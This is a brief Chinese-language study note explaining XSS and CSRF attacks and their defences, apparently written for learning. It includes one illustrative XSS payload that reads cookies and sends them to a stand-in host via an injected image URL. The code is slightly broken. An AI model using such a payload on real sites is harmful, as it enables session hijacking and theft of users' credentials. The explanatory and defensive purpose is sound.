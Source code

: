 # XSS && CSRF

##  1、XSS
XSS（Cross Site Scripting）跨站脚本攻击。

看起来很深奥，但是这是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。

分类：

反射性
存储型
DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。

```js
<script>
    var cook = window.cookie;
    var img = `<img src = "www.syte.com/get.php?cook=${cook}"`;
    document.write(img);
</script>
```

注入这个片段后执行时获取用户 cookie 并把 cookie 发送到 `www.syte.com` 域名中。

在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。

## 2、CSRF
CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。

举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

csrf

要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1.登录受信任网站A，并在本地生成Cookie。

2.在不登出A的情况下，访问危险网站B。

如何让防范？

验证 HTTP Referer 字段
在请求地址中添加 token 并验证